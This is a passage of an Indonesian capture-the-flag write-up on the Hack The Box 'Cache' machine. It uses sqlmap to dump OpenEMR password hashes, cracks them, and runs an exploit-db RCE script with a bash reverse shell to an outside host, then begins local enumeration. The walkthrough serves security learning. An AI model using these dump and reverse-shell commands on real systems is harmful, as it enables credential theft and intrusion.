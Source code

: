 ```
sqlmap -i sqli_burp -D openemr -T users_secure --dump
```

![Image](img/5.PNG)

Setelah di crack dengan menggunakan JTR kita bisa melihat password asli dari openemr_admin

![Image](img/6.PNG)

Kita bisa login ke menu dashboard admin dan melanjutkan exploitasi openEMR untuk melakukan RCE dan mendapatkan reverse shell.

Sebuah POC script sudah dibuat dan tersedia di exploitdb untuk melakukan RCE, bisa ditemukan di [https://www.exploit-db.com/exploits/45161](https://www.exploit-db.com/exploits/45161)

```
python rce.py http://hms.htb -u openemr_admin -p xxxxxx -c 'bash -i >& /dev/tcp/10.10.14.2/1234 0>&1'
```

Dan kita mendapatkan shell

![Image](img/7.PNG)

Setelah merubah shell www-data menjadi interactive shell dan login sebagai ash, kita berhasil mendapatkan user.txt

### Root

Enumeration sejenak kita bisa mengetahui ada service memcached yang berjalan di lokal (port 11211)

```
ash@cache:~$ netstat -tulpn
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:11211         0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
```